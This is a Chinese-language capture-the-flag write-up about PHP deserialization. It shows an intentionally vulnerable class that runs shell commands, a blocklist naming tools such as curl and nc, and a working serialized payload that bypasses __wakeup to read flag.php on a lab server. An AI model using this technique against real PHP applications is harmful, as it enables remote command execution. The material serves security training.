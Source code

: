 # 序列化



```php
<?php
header("Content-Type: text/html;charset=utf-8");
error_reporting(0);
echo "<!-- YmFja3Vwcw== -->";
class ctf
{
    protected $username = 'hack';
    protected $cmd = 'NULL';
    public function __construct($username,$cmd)
    {
        $this->username = $username;
        $this->cmd = $cmd;
    }
    function __wakeup()
    {
        $this->username = 'guest';
    }

    function __destruct()
    {
        if(preg_match("/cat|more|tail|less|head|curl|nc|strings|sort|echo/i", $this->cmd))
        {
            exit('</br>flag能让你这么容易拿到吗？<br>');
        }
        if ($this->username === 'admin')
        {
           // echo "<br>right!<br>";
            $a = `$this->cmd`;
            var_dump($a);
        }else
        {
            echo "</br>给你个安慰奖吧，hhh！</br>";
            die();
        }
    }
}
    $select = $_GET['code'];
    $res=unserialize(@$select);
?>
```

+ serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。
+ 与之相反，unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 `__wakeup` 方法，预先准备对象需要的资源。
+ __construct()：PHP 允许开发者在一个类中定义一个方法作为构造函数。具有构造函数的类会在每次创建新对象时先调用此方法，所以非常适合在使用对象之前做一些初始化工作。
+ __destruct()：PHP 5 引入了析构函数的概念，这类似于其它面向对象的语言，如 C++。析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。



需要注意的是当访问控制符为private与protect时，**序列化时比较特殊：　　**

- protected属性被序列化的时候属性值会变成：%00*%00属性名
- private属性被序列化的时候属性值会变成：%00类名%00属性名



- 需要我们上传一个code参数，程序会对其反序列化
- 当判断username为admin时，会执行cmd内的代码。
- 因为调用unserialize函数之前会调用__wakeup方法，后面会将username覆盖为guest。
- 将变量个数修改为大于实际值的数就能够绕过。

```
http://114.67.246.176:13174/?code=O:3:%22ctf%22:3:{s:11:%22%00*%00username%22;s:5:%22admin%22;s:6:%22%00*%00cmd%22;s:12:%22tac%20flag.php%22;}

O:3:"ctf":3:{s:11:"%00*%00username";s:5:"admin";s:6:"%00*%00cmd";s:12:"tac flag.php";}
```

